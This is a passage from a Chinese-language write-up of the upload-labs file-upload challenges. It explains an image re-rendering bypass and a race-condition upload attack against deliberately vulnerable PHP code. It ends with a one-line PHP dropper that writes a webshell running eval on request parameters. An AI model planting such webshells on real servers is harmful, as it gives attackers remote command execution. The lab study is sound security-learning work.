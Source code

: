                   @unlink($target_path);
                  $is_upload = true;
              }
          } else {
              $msg = "上传出错！";
          }
      }else{
          $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
      }
  }
  ```

- 先上传一张gif图片，然后将二次渲染的图片和原图做对比，找到没有改变的位置插入一句话
- ![image-20220823100511142](assets/image-20220823100511142.png)
- 再次上传
- ![image-20220823101228084](assets/image-20220823101228084.png)
- ![image-20220823101258729](assets/image-20220823101258729.png)
- 这里面如果只插入一句话木马不能正常运行，返回的数据为空，如果加入phpinfo又可以了，有点玄学

## 2.2-pass-17-条件竞争

- 条件竞争：发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中

- 在文件上传中的条件竞争就是利用上传文件的时间差来执行上传的文件，从而达到远程执行的目的

- 为了使用bp抓到的包直接发送原始数据进行条件竞争，这里我们使用hackhttpd模块可以使用以下命令安装

- ```
  pip install hackhttp 
  ```

  

- ```php
  $is_upload = false;
  $msg = null;
  
  if(isset($_POST['submit'])){
      $ext_arr = array('jpg','png','gif');
      $file_name = $_FILES['upload_file']['name'];
      $temp_file = $_FILES['upload_file']['tmp_name'];
      $file_ext = substr($file_name,strrpos($file_name,".")+1);
      $upload_file = UPLOAD_PATH . '/' . $file_name;
  
      if(move_uploaded_file($temp_file, $upload_file)){
          if(in_array($file_ext,$ext_arr)){
               $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
               rename($upload_file, $img_path);
               $is_upload = true;
          }else{
              $msg = "只允许上传.jpg|.png|.gif类型文件！";
              unlink($upload_file);
          }
      }else{
          $msg = '上传出错！';
      }
  }
  ```

- 分析源码可以发现，这里先讲文件上传到服务器上面，然后进行重命名，当我们的请求并发数量比较快的时候就可以在对方没有重命名完成时访问成功，结合一句话生成木马就可以get服务器

- ```
  <?php fputs(fopen('upshell.php','w'),'<?php eval($_REQUEST[cmd]);?>');?> #生成一句话木马的木马
  ```
